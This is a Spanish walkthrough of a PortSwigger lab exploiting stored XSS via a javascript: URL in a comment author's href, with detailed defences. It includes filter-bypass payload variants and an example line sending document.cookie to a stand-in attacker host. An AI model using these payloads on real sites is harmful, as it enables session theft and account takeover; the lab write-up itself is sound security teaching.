



# Lab 35 — Stored XSS into anchor `href` attribute with double quotes HTML-encoded

**PortSwigger Web Security Academy**  
**Categoría:** Cross-site scripting — XSS contexts  
**URL del laboratorio:** https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded  
**Tipo de vulnerabilidad:** Stored Cross-Site Scripting  
**Contexto vulnerable:** atributo HTML `href` de una etiqueta `<a>`  
**Campo vulnerable:** `Website` dentro del formulario de comentarios  
**Payload usado:**

```text
javascript:alert()
```

**Objetivo del laboratorio:** enviar un comentario que haga que se ejecute la función `alert` cuando se haga clic en el nombre del autor del comentario.

---

## Imágenes del laboratorio

Las imágenes se incluyen en la carpeta `images/` dentro de este ZIP:

- `images/imagen1_pagina_principal_blog.png`
- `images/imagen2_formulario_comentario_payload_website.png`
- `images/imagen3_laboratorio_resuelto_tras_post_comment.png`
- `images/imagen4_popup_alert_al_clickar_autor.png`

### Imagen 1 — Página principal del blog


### Imagen 2 — Formulario de comentario con payload en Website



### Imagen 3 — Laboratorio resuelto tras enviar comentario



### Imagen 4 — Popup ejecutado al hacer clic sobre el autor



---

# 1. Descripción del laboratorio

El laboratorio se llama:

```text
Stored XSS into anchor href attribute with double quotes HTML-encoded
```

En español:

```text
XSS almacenado en el atributo href de un enlace con comillas dobles codificadas en HTML
```

El enunciado indica que existe una vulnerabilidad de **cross-site scripting almacenado** en la funcionalidad de comentarios. El objetivo es enviar un comentario que provoque la ejecución de la función `alert` cuando se haga clic sobre el nombre del autor del comentario.

Esto ya nos da varias pistas importantes:

1. La vulnerabilidad está en los comentarios.
2. No se trata de un XSS reflejado, sino de un XSS almacenado.
3. El payload debe persistir después de enviarse.
4. La ejecución no ocurre necesariamente al cargar la página.
5. La ejecución ocurre cuando se hace clic en el nombre del autor.
6. El contexto no es un `<script>` ni texto HTML normal, sino un enlace generado a partir del comentario.
7. La frase “anchor href attribute” apunta directamente a una etiqueta `<a>` y a su atributo `href`.

La pista clave es esta:

```text
anchor href attribute
```

Una etiqueta anchor en HTML es esto:

```html
<a href="https://example.com">Texto visible</a>
```

El atributo `href` define qué ocurre cuando el usuario hace clic en el enlace. Normalmente se usa para navegar a otra URL, pero el navegador también permite otros esquemas/protocolos, entre ellos `javascript:`.

Este lab no va de cerrar etiquetas con `<script>`, ni de romper un atributo con comillas para inyectar `onclick`, ni de usar eventos como `onmouseover`. Aquí el ataque consiste en controlar el **valor semántico** del `href`.

---

# 2. Qué tipo de XSS es y por qué importa

Este laboratorio es un **Stored XSS**.

Un Stored XSS ocurre cuando el payload malicioso se guarda en el servidor y después se muestra a otros usuarios en una respuesta posterior. La diferencia con reflected XSS es importante:

## Reflected XSS

En un reflected XSS, el payload viaja en una petición y vuelve inmediatamente en la respuesta.

Ejemplo:

```text
/search?q=<script>alert(1)</script>
```

Flujo:

```text
Usuario hace petición con payload
        ↓
Servidor refleja el payload
        ↓
Navegador ejecuta el payload
```

Normalmente requiere que la víctima haga clic en un enlace especialmente construido.

## Stored XSS

En un stored XSS, el payload se guarda.

Ejemplo conceptual:

```text
comment = <script>alert(1)</script>
```

Flujo:

```text
Atacante envía payload
        ↓
Servidor guarda payload en base de datos
        ↓
Víctima visita la página afectada
        ↓
Servidor recupera payload guardado
        ↓
Navegador de la víctima lo interpreta
        ↓
Se ejecuta JavaScript
```

En este lab concreto, el payload no se ejecuta automáticamente al cargar la página. Se ejecuta cuando el usuario hace clic sobre el nombre del autor del comentario. Aun así sigue siendo Stored XSS porque el payload queda almacenado en el comentario y permanece en la página.

La clave es esta:

```text
No es el payload lo que determina si es reflected o stored.
Lo que lo determina es si el servidor lo guarda o no.
```

En este caso, el servidor guarda el contenido del campo `Website`, y luego lo reutiliza para construir un enlace HTML.

---

# 3. Contexto exacto de la vulnerabilidad

El punto vulnerable no es el campo `Comment`, ni el campo `Name`, ni el campo `Email`.

El punto vulnerable es:

```text
Website
```

¿Por qué?

Porque el campo `Website` se usa después para crear el enlace del autor.

Un blog típico permite dejar un comentario con estos campos:

```text
Comment
Name
Email
Website
```

La intención legítima del campo `Website` es que el usuario pueda enlazar su página personal, portfolio, blog, perfil profesional o cualquier otra web.

Ejemplo legítimo:

```text
Comment: Buen artículo
Name: pepe
Email: pepe@gmail.com
Website: https://miweb.com
```

Cuando el comentario se muestra, la aplicación podría generar algo como:

```html
<a href="https://miweb.com">pepe</a>
<p>Buen artículo</p>
```

Visualmente el usuario vería el nombre `pepe`. Al hacer clic en `pepe`, el navegador iría a `https://miweb.com`.

El problema aparece cuando el servidor confía en que `Website` siempre va a ser una URL normal.

---

# 4. Qué hace probablemente el backend

La aplicación probablemente toma los datos del formulario y los guarda en una base de datos:

```text
name    = pepe
email   = pepe@gmail.com
website = javascript:alert()
comment = pepe
```

Conceptualmente, el backend podría hacer algo como esto:

```sql
INSERT INTO comments (name, email, website, comment)
VALUES ('pepe', 'pepe@gmail.com', 'javascript:alert()', 'pepe');
```

Después, cuando se carga el post, la aplicación recupera los comentarios:

```sql
SELECT name, email, website, comment
FROM comments
WHERE post_id = ?;
```

Y renderiza cada comentario en HTML:

```html
<a id="author" href="WEBSITE">NAME</a>
<p>COMMENT</p>
```

Si `WEBSITE` contiene una URL normal:

```text
https://example.com
```

El HTML final es:

```html
<a id="author" href="https://example.com">pepe</a>
```

Pero si `WEBSITE` contiene:

```text
javascript:alert()
```

El HTML final es:

```html
<a id="author" href="javascript:alert()">pepe</a>
```

Ese es el XSS.

---

# 5. Por qué este lab no requiere romper el HTML

En muchos laboratorios anteriores de XSS, la técnica consistía en romper el contexto:

- cerrar una etiqueta
- cerrar un atributo
- cerrar una cadena JavaScript
- insertar una etiqueta nueva
- añadir un event handler
- usar `</script>` para salir de un bloque script

Aquí no necesitamos nada de eso.

No necesitamos:

```html
<script>alert(1)</script>
```

No necesitamos:

```html
" onclick="alert(1)
```

No necesitamos:

```html

```

No necesitamos:

```html
<svg onload=alert(1)>
```

La razón es que ya tenemos control sobre un atributo que tiene comportamiento especial:

```html
href="AQUÍ"
```

El atributo `href` no solo representa texto. Representa una acción de navegación. El navegador interpreta su valor como una URL o como un esquema especial.

Por eso este lab es de contexto.

La idea clave es:

```text
No siempre hay que romper el HTML.
A veces basta con usar correctamente el contexto donde cae tu input.
```

Aquí el contexto es un `href`, y `href` permite el esquema `javascript:`.

---

# 6. Qué significa que las comillas dobles estén HTML-encoded

El título dice:

```text
with double quotes HTML-encoded
```

Eso significa que si intentas introducir una comilla doble `"`, el servidor la transforma en una entidad HTML.

Ejemplo:

```text
"
```

se convierte en:

```html
&quot;
```

O podría codificarse de forma equivalente como:

```html
&#34;
```

Esto evita ataques que intentan cerrar el atributo `href` y crear atributos nuevos.

Por ejemplo, si el HTML original fuera:

```html
<a href="USER_INPUT">pepe</a>
```

Un atacante podría intentar:

```text
" onclick="alert(1)
```

Si no hubiera encoding, quedaría:

```html
<a href="" onclick="alert(1)">pepe</a>
```

Eso sería un XSS por inyección de atributo.

Pero como las comillas dobles se codifican, la salida quedaría más o menos así:

```html
<a href="&quot; onclick=&quot;alert(1)">pepe</a>
```

El navegador interpreta `&quot;` como texto dentro del atributo, no como una comilla que cierra el atributo.

Por tanto, la vía de ataque de “cerrar atributo e inyectar `onclick`” queda bloqueada.

Pero eso no soluciona el problema real.

El error del desarrollador fue proteger la **sintaxis HTML**, pero no validar la **semántica del valor**.

Dicho de forma clara:

```text
Escapar comillas protege la estructura del HTML.
Validar protocolos protege el comportamiento del enlace.
```

La aplicación hizo lo primero, pero no lo segundo.

---

# 7. Sintaxis vs semántica del atributo `href`

Esta distinción es fundamental.

## Sintaxis HTML

La sintaxis se refiere a que el HTML esté bien formado:

```html
<a href="https://example.com">pepe</a>
```

Si el usuario puede meter comillas, puede romper esa estructura:

```html
<a href="" onclick="alert(1)">pepe</a>
```

Codificar comillas ayuda a impedir eso.

## Semántica del atributo

La semántica se refiere a qué significa el valor del atributo.

En un `href`, el valor no es texto sin más. Es una instrucción de navegación.

Ejemplos válidos:

```html
<a href="https://example.com">Web</a>
<a href="mailto:test@example.com">Email</a>
<a href="tel:+34123456789">Teléfono</a>
<a href="#section">Sección</a>
<a href="javascript:alert(1)">Ejecutar JS</a>
```

El navegador entiende `javascript:` como un esquema especial.

Por eso, aunque el HTML esté perfectamente bien formado, puede seguir siendo peligroso:

```html
<a href="javascript:alert()">pepe</a>
```

Ese HTML no está roto. No hay etiquetas mal cerradas. No hay atributos inyectados. No hay `<script>`. No hay `onerror`.

Y aun así ejecuta JavaScript.

---

# 8. Qué es `javascript:` en un `href`

`javascript:` es un esquema/protocolo especial soportado históricamente por los navegadores.

Normalmente vemos enlaces como:

```html
<a href="https://google.com">Ir a Google</a>
```

Aquí `https:` es el esquema.

También existen otros esquemas:

```text
http:
https:
mailto:
tel:
ftp:
data:
javascript:
```

El esquema `javascript:` significa:

```text
Cuando se active este enlace, ejecuta el código JavaScript que aparece después.
```

Ejemplo:

```html
<a href="javascript:alert(1)">Click</a>
```

Al hacer clic:

1. El navegador lee el atributo `href`.
2. Detecta que empieza por `javascript:`.
3. No navega a una URL remota.
4. Interpreta lo que viene después como JavaScript.
5. Ejecuta `alert(1)`.

Por eso este payload es suficiente:

```text
javascript:alert()
```

No necesitamos cerrar el atributo, porque el propio valor del atributo ya es ejecutable.

---

# 9. Por qué existe `javascript:`

Esto viene de una época en la que era común añadir comportamiento JavaScript directamente en HTML.

Ejemplo histórico:

```html
<a href="javascript:doSomething()">Ejecutar acción</a>
```

Era una forma rápida de hacer que un enlace ejecutara una función sin usar `onclick`.

Hoy se considera mala práctica porque mezcla estructura con comportamiento y puede abrir puertas a XSS si se usa con datos no confiables. Aun así, los navegadores lo mantienen por compatibilidad con páginas antiguas.

En aplicaciones modernas, lo correcto sería:

```html
<a href="https://example.com">Web</a>
```

Y para comportamiento dinámico:

```js
document.querySelector('a').addEventListener('click', handler);
```

Pero nunca se debería permitir que un usuario controle un `href` sin validar el protocolo.

---

# 10. Por qué funciona aunque se codifiquen comillas dobles

El payload usado es:

```text
javascript:alert()
```

No contiene comillas dobles.

No contiene:

```text
"
```

No intenta convertir esto:

```html
<a href="USER_INPUT">pepe</a>
```

en esto:

```html
<a href="" onclick="alert()">pepe</a>
```

Lo que hace es mantener intacta la estructura:

```html
<a href="javascript:alert()">pepe</a>
```

Desde el punto de vista del HTML, todo parece normal.

Desde el punto de vista de seguridad, es peligroso porque el navegador ejecuta el contenido del `href`.

Este es el fallo principal del laboratorio:

```text
La aplicación escapa caracteres para que no se rompa el atributo,
pero no valida que el atributo contenga una URL segura.
```

---

# 11. Stored XSS en este laboratorio: flujo completo

El flujo exacto del ataque es:

```text
1. Entramos en un post del blog.
2. Bajamos al formulario de comentarios.
3. Escribimos un comentario normal.
4. En Name ponemos un nombre cualquiera, por ejemplo pepe.
5. En Email ponemos un email válido o con formato válido.
6. En Website ponemos javascript:alert().
7. Enviamos el comentario.
8. El servidor guarda el comentario.
9. El servidor genera un enlace para el autor usando Website como href.
10. El HTML resultante contiene href="javascript:alert()".
11. Al hacer clic sobre el nombre del autor, el navegador ejecuta alert().
12. El lab se resuelve.
```

Representado visualmente:

```text
Campo Website
     ↓
javascript:alert()
     ↓
Base de datos
     ↓
Renderizado del comentario
     ↓
<a href="javascript:alert()">pepe</a>
     ↓
Click sobre pepe
     ↓
alert()
```

---

# 12. Paso práctico 1 — Abrir el laboratorio

Al iniciar el laboratorio se abre una URL parecida a:

```text
https://0a3d002f0437e5ac810b845900320086.web-security-academy.net/
```

La página principal tiene aspecto de blog, como se ve en la imagen 1.


Observamos:

- cabecera de Web Security Academy
- título del lab
- estado `Not solved`
- página tipo blog
- posts con imágenes
- enlaces para ver posts

Este laboratorio no se explota desde el buscador. Se explota desde la funcionalidad de comentarios.

---

# 13. Paso práctico 2 — Entrar en un post

Seleccionamos cualquier post haciendo clic en `View post`.

Una vez dentro del post, bajamos hasta el formulario de comentarios.

El formulario contiene:

```text
Comment
Name
Email
Website
Post Comment
```

La imagen 2 muestra el formulario con los datos introducidos.


Rellenamos los campos así:

```text
Comment: pepe
Name: pepe
Email: pepe@gmail.com
Website: javascript:alert()
```

El campo importante es `Website`.

---

# 14. Por qué el payload va en Website y no en Comment

Podríamos pensar que el campo `Comment` es el sitio natural para meter XSS, porque se muestra como texto en la página. Pero en este lab el objetivo concreto es:

```text
make alert execute when clicking the comment author's name
```

Es decir:

```text
que se ejecute alert cuando se haga clic en el nombre del autor
```

El nombre del autor se convierte en un enlace.

Ese enlace obtiene su destino del campo `Website`.

Por eso el campo vulnerable es `Website`.

Si metiéramos el payload en `Comment`, probablemente se mostraría como texto o estaría tratado de otra forma. El lab está diseñado para explotar el enlace del autor.

---

# 15. Paso práctico 3 — Enviar el comentario

Pulsamos:

```text
Post Comment
```

El servidor acepta el comentario y muestra la página de confirmación.

En la imagen 3 se observa que el laboratorio queda resuelto tras enviar el comentario.


Esto confirma que PortSwigger ha detectado que el payload correcto ha sido almacenado.

En algunos labs el estado de resuelto aparece cuando se ejecuta el payload. En este caso, puede resolverse al detectar la condición esperada o al producirse la navegación/ejecución posterior. Lo importante es que el comentario queda almacenado con un `href` malicioso.

---

# 16. Paso práctico 4 — Revisar el HTML generado

Después de enviar el comentario, volvemos al post o inspeccionamos el DOM.

El HTML relevante queda así:

```html
<p>
  
  <a id="author" href="javascript:alert()">pepe</a> | 02 May 2026
</p>
```

Vamos línea por línea.

## Imagen del avatar

```html

```

Esto solo muestra el avatar por defecto del usuario que comenta.

No es el punto vulnerable.

No ejecuta nada.

No tiene relación directa con el XSS.

## Enlace del autor

```html
<a id="author" href="javascript:alert()">pepe</a>
```

Esta línea es la clave.

Partes:

```html
<a ...>pepe</a>
```

Crea un enlace visible cuyo texto es `pepe`.

```html
id="author"
```

Identificador del elemento.

```html
href="javascript:alert()"
```

Acción que se ejecutará al hacer clic.

El navegador interpreta esto como:

```text
cuando el usuario haga clic en pepe, ejecuta alert()
```

---

# 17. Paso práctico 5 — Clic sobre el autor

Cuando hacemos clic sobre `pepe`, el navegador ejecuta el código del `href`.

Aparece el popup mostrado en la imagen 4.


Esto confirma que el payload se ejecuta correctamente.

---

# 18. Qué ocurre exactamente al hacer clic

Cuando hacemos clic sobre el enlace:

```html
<a href="javascript:alert()">pepe</a>
```

El navegador realiza este proceso:

```text
1. Usuario hace clic sobre el enlace.
2. El navegador lee el atributo href.
3. Detecta el esquema javascript:.
4. No realiza una petición HTTP.
5. No navega a otra página.
6. Pasa el contenido posterior a javascript: al motor JavaScript.
7. Ejecuta alert().
8. Aparece el popup.
```

Es importante entender que no se envía una petición al servidor para ejecutar el alert. Todo ocurre en el navegador.

El servidor solo entregó el HTML vulnerable.

La ejecución es client-side.

---

# 19. Diferencia con `onclick`

Un ataque por atributo clásico sería:

```html
<a href="https://example.com" onclick="alert(1)">pepe</a>
```

Pero aquí no usamos `onclick`.

Usamos:

```html
<a href="javascript:alert()">pepe</a>
```

Diferencia:

| Técnica | Requiere romper atributo | Usa event handler | Requiere comillas | Funciona aquí |
|---|---:|---:|---:|---:|
| `" onclick="alert(1)` | Sí | Sí | Sí | No, porque `"` está codificada |
| `javascript:alert()` | No | No | No | Sí |

La gracia del lab es que no intentamos luchar contra el filtro de comillas. Cambiamos de enfoque y usamos el comportamiento propio del `href`.

---

# 20. Por qué `javascript:alert()` y no `<script>alert()</script>`

Porque el input cae en un atributo `href`, no en texto HTML normal.

Si intentamos meter:

```html
<script>alert()</script>
```

como Website, el resultado podría quedar:

```html
<a href="<script>alert()</script>">pepe</a>
```

Eso no ejecuta JavaScript. El navegador lo interpreta como un valor extraño de URL dentro del `href`.

Además, si la aplicación escapa caracteres peligrosos, `<` y `>` podrían transformarse en entidades HTML.

El payload correcto depende del contexto.

Aquí el contexto es:

```html
href="AQUÍ"
```

Por tanto, el payload correcto debe ser un valor válido para `href` que provoque ejecución:

```text
javascript:alert()
```

---

# 21. Por qué se puede resolver con `alert()` sin parámetro

El enunciado pide invocar la función `alert`.

Puede servir:

```text
javascript:alert()
```

También podría servir:

```text
javascript:alert(1)
```

En tus capturas se usa:

```text
javascript:alert()
```

El popup aparece vacío o con el comportamiento propio del navegador, pero se ejecuta la función `alert`, que es lo que el laboratorio espera.

En muchos labs de PortSwigger el objetivo es simplemente invocar `alert`, no necesariamente mostrar un valor concreto.

---

# 22. Por qué el navegador no navega a `javascript:alert()` como si fuera una URL normal

Porque `javascript:` no es un host ni una ruta HTTP.

En una URL como:

```text
https://example.com/path
```

el esquema es:

```text
https:
```

El navegador sabe que debe hacer una petición de red.

En:

```text
javascript:alert()
```

el esquema es:

```text
javascript:
```

El navegador sabe que debe evaluar el resto como código JavaScript en el contexto de la página actual.

Por eso, si el enlace está en:

```text
https://0a3d002f0437e5ac810b845900320086.web-security-academy.net/
```

el código se ejecuta con el origen de esa página.

Eso es lo que convierte el problema en XSS.

---

# 23. Impacto real de este tipo de vulnerabilidad

En el lab usamos:

```text
javascript:alert()
```

porque PortSwigger necesita una prueba sencilla y segura.

En un escenario real, si no hubiera otras defensas, un atacante podría intentar acciones como:

```text
javascript:fetch('https://attacker.example/steal?c='+document.cookie)
```

O manipular la página:

```text
javascript:document.body.innerHTML='phishing'
```

O ejecutar acciones en nombre del usuario:

```text
javascript:fetch('/my-account/change-email',{method:'POST',body:'email=attacker@example.com'})
```

El impacto depende de:

- si las cookies tienen `HttpOnly`
- si hay CSRF tokens
- si existe CSP
- qué privilegios tiene la víctima
- qué funcionalidades hay en la aplicación
- si el comentario lo ve un administrador

Pero la vulnerabilidad base es grave porque permite ejecutar JavaScript en el origen legítimo.

---

# 24. Por qué Stored XSS suele ser más grave

Este lab se resuelve haciendo clic sobre el autor del comentario. Aunque requiere interacción, el payload queda almacenado.

Eso significa que:

```text
No tengo que enviar un enlace malicioso cada vez.
Solo planto el payload una vez.
```

Cualquier usuario que vea el comentario tendrá el enlace malicioso.

Si el usuario hace clic en el autor, se ejecuta el JavaScript.

Comparación:

| Tipo | Persistente | Requiere enlace externo | Se guarda en servidor | Víctimas potenciales |
|---|---:|---:|---:|---:|
| Reflected XSS | No | Sí | No | Quien abra el enlace |
| Stored XSS | Sí | No necesariamente | Sí | Quien vea el contenido |

Este lab demuestra un stored XSS de interacción, pero sigue siendo stored XSS.

---

# 25. Por qué la validación de email no importa aquí

El formulario pide `Email`, pero el payload no va ahí.

El email normalmente se usa para:

- identificar al autor
- mostrar avatar
- validación básica
- Gravatar u otra función

En este lab, el campo explotable es `Website`.

Podemos poner:

```text
pepe@gmail.com
```

porque solo necesitamos que el formulario acepte el comentario.

---

# 26. Por qué el comentario puede ser texto normal

El campo `Comment` puede ser simplemente:

```text
pepe
```

No necesitamos payload ahí porque el objetivo no es ejecutar JavaScript desde el cuerpo del comentario.

El comentario solo sirve para publicar una entrada nueva y que aparezca el autor con su enlace.

---

# 27. Por qué el nombre importa visualmente

El campo `Name` determina el texto visible del enlace.

Si ponemos:

```text
Name: pepe
```

El HTML generado es:

```html
<a href="javascript:alert()">pepe</a>
```

El usuario ve `pepe` como autor.

Si hace clic en `pepe`, se ejecuta el payload.

El `Name` no es lo peligroso en sí, pero es la superficie clickable.

---

# 28. Error de seguridad del desarrollador

El desarrollador hizo una defensa parcial:

```text
Codificar comillas dobles
```

Eso previene algunas inyecciones de atributos.

Pero no hizo lo más importante:

```text
Validar que Website sea una URL segura
```

La defensa correcta no es solo encoding.

En este contexto, hay dos capas distintas:

1. Encoding de HTML para evitar romper la estructura.
2. Validación de URL para evitar esquemas peligrosos.

El lab demuestra que la primera capa no sustituye a la segunda.

---

# 29. Cómo defender correctamente este caso

## 29.1 Allowlist de protocolos

El servidor debe aceptar solo protocolos seguros:

```text
http://
https://
```

Ejemplo conceptual:

```js
const allowed = /^https?:\/\//i;

if (!allowed.test(userInput)) {
  reject();
}
```

Esto bloquearía:

```text
javascript:alert()
data:text/html,<script>alert(1)</script>
vbscript:msgbox(1)
file:///etc/passwd
```

## 29.2 Normalización antes de validar

No basta con hacer una comparación superficial.

Un atacante podría intentar variantes como:

```text
JaVaScRiPt:alert(1)
 javascript:alert(1)
java%0ascript:alert(1)
java&#x73;cript:alert(1)
```

Por eso, antes de validar, la aplicación debe normalizar:

- trim de espacios
- decodificación controlada
- conversión a minúsculas para comparar esquema
- parsing con una librería URL robusta

## 29.3 Usar parser de URL

Ejemplo robusto en JavaScript del lado servidor:

```js
function isSafeUrl(input) {
  let url;
  try {
    url = new URL(input);
  } catch {
    return false;
  }

  return url.protocol === 'http:' || url.protocol === 'https:';
}
```

## 29.4 Rechazar URLs relativas si no son necesarias

Si el campo Website debe ser una web externa, se puede exigir URL absoluta con `http` o `https`.

## 29.5 Añadir `rel` defensivo

Para enlaces externos legítimos:

```html
<a href="https://example.com" rel="noopener noreferrer nofollow">pepe</a>
```

Esto no soluciona `javascript:`, pero reduce otros riesgos como tabnabbing.

## 29.6 CSP

Una Content Security Policy estricta puede ayudar a bloquear `javascript:` en algunos contextos, especialmente si evita inline scripts.

Ejemplo:

```http
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'none'
```

Pero CSP debe verse como defensa en profundidad, no como la solución principal. La solución principal es validar el `href`.

## 29.7 Sanitización específica de HTML

Si se permite HTML generado desde usuarios, usar una librería robusta como DOMPurify configurada para no permitir `javascript:` en URL attributes.

Pero para este caso concreto, lo mejor es no permitir HTML de usuario y validar el campo Website como URL.

---

# 30. Variantes del payload

El payload usado fue:

```text
javascript:alert()
```

También podrían funcionar variantes como:

```text
javascript:alert(1)
```

```text
javascript:alert(document.domain)
```

```text
javascript:alert(String.fromCharCode(88,83,83))
```

En un entorno real podrían existir filtros básicos contra la palabra `javascript`. Entonces se probarían variantes de capitalización o codificación, aunque un sistema bien hecho debería normalizar y bloquear todas.

Ejemplos de variantes que un filtro débil podría no detectar:

```text
JaVaScRiPt:alert(1)
```

```text
javascript:alert`1`
```

```text
java%0ascript:alert(1)
```

La idea defensiva importante es que no se debe intentar bloquear payloads concretos, sino validar positivamente lo permitido:

```text
solo http y https
```

---

# 31. Por qué `data:` también puede ser peligroso

Aunque este lab usa `javascript:`, también hay otros esquemas peligrosos.

Ejemplo:

```text
data:text/html,<script>alert(1)</script>
```

Un `href` con `data:` puede abrir contenido controlado por el atacante.

Por eso una blacklist de `javascript:` no es suficiente.

Mala defensa:

```js
if (url.includes('javascript:')) reject();
```

Buena defensa:

```js
if (protocol !== 'http:' && protocol !== 'https:') reject();
```

---

# 32. Por qué este lab es de contexto y no de payload mágico

La enseñanza real del lab no es memorizar:

```text
javascript:alert()
```

La enseñanza real es:

```text
El payload depende del contexto donde cae tu input.
```

Contextos distintos requieren técnicas distintas:

| Contexto | Ejemplo | Técnica típica |
|---|---|---|
| HTML body | `<p>INPUT</p>` | `<script>`, ``, SVG |
| Atributo HTML | `<input value="INPUT">` | cerrar atributo, event handler |
| JavaScript string | `var x='INPUT'` | cerrar string, operadores, comentarios |
| Template literal | ``var x=`INPUT` `` | `${alert(1)}` |
| URL href | `<a href="INPUT">` | `javascript:` |

Aquí estamos en contexto URL dentro de `href`.

Por eso el payload correcto es un esquema de URL ejecutable.

---

# 33. Análisis del DOM generado

El DOM observado tras publicar el comentario contiene:

```html
<p>
  
  <a id="author" href="javascript:alert()">pepe</a> | 02 May 2026
</p>
```

Analicemos el comportamiento completo del elemento:

```html
<a id="author" href="javascript:alert()">pepe</a>
```

- `<a>` crea un enlace.
- `id="author"` identifica el elemento.
- `href="javascript:alert()"` define la acción.
- `pepe` es el texto clickable.
- `</a>` cierra el enlace.

Cuando el usuario hace clic en `pepe`, el navegador ejecuta el valor del `href`.

No hay petición HTTP nueva para ejecutar `alert`.

No hay interacción adicional con el servidor.

---

# 34. Por qué el lab se resuelve al publicar o al hacer clic

En tu flujo, después de enviar el comentario el laboratorio aparece resuelto.

Eso tiene sentido porque la plataforma puede detectar que se ha almacenado un comentario que cumple la condición del laboratorio.

El objetivo dice:

```text
submit a comment that calls alert when the comment author's name is clicked
```

Si el comentario almacenado genera:

```html
<a href="javascript:alert()">pepe</a>
```

ya se ha cumplido la condición estructural. Luego, al hacer clic, se comprueba visualmente la ejecución con el popup.

---

# 35. Comparación con otros labs de XSS

Este lab es más simple visualmente, pero conceptualmente importante.

En labs anteriores se hacía:

```text
romper contexto
```

Aquí se hace:

```text
usar el contexto
```

Ejemplo:

## XSS en atributo con comillas no escapadas

```text
" autofocus onfocus=alert(1) x="
```

Objetivo: cerrar atributo e inyectar otro.

## XSS en JavaScript string

```text
'-alert(1)-'
```

Objetivo: cerrar string y ejecutar JS.

## XSS en template literal

```text
${alert(1)}
```

Objetivo: aprovechar interpolación.

## Este lab

```text
javascript:alert()
```

Objetivo: usar un protocolo ejecutable dentro de `href`.

---

# 36. Qué NO está pasando aquí

No estamos haciendo esto:

```html
<a href="" onclick="alert()">pepe</a>
```

No estamos haciendo esto:

```html
<script>alert()</script>
```

No estamos haciendo esto:

```html

```

No estamos haciendo esto:

```html
<svg onload=alert()>
```

El HTML final no parece roto. Precisamente por eso este tipo de XSS puede pasar desapercibido si solo se revisa si el HTML “rompe” o no.

---

# 37. La frase clave del laboratorio

La frase que resume el lab es:

```text
El desarrollador protegió las comillas, pero no protegió el protocolo.
```

O también:

```text
No todo XSS consiste en inyectar etiquetas; a veces consiste en controlar el comportamiento de un atributo existente.
```

---

# 38. Paso a paso resumido de explotación

1. Iniciar el laboratorio.
2. Abrir un post del blog.
3. Bajar al formulario de comentarios.
4. Rellenar:

```text
Comment: pepe
Name: pepe
Email: pepe@gmail.com
Website: javascript:alert()
```

5. Pulsar `Post Comment`.
6. Volver al post.
7. Inspeccionar el comentario.
8. Confirmar:

```html
<a id="author" href="javascript:alert()">pepe</a>
```

9. Hacer clic en `pepe`.
10. Confirmar popup.
11. Laboratorio resuelto.

---

# 39. Conclusión técnica

Este laboratorio demuestra una vulnerabilidad de Stored XSS causada por insertar input del usuario en un atributo `href` sin validar el esquema de URL.

La aplicación codifica comillas dobles, lo cual evita romper la estructura HTML del atributo. Sin embargo, esa defensa no impide que el valor completo del atributo sea peligroso.

El payload `javascript:alert()` funciona porque `href` acepta esquemas distintos de `http` y `https`, y el esquema `javascript:` ejecuta código cuando el enlace se activa.

La explotación es persistente porque el valor se guarda como parte del comentario y se renderiza cada vez que el post se visualiza.

La defensa correcta es aplicar una allowlist estricta de protocolos seguros (`http:` y `https:`), normalizar la entrada antes de validarla y no confiar únicamente en HTML encoding.

---

# 40. Checklist de aprendizaje

Al terminar este lab debes tener claro:

- Qué es Stored XSS.
- Por qué el campo `Website` es vulnerable.
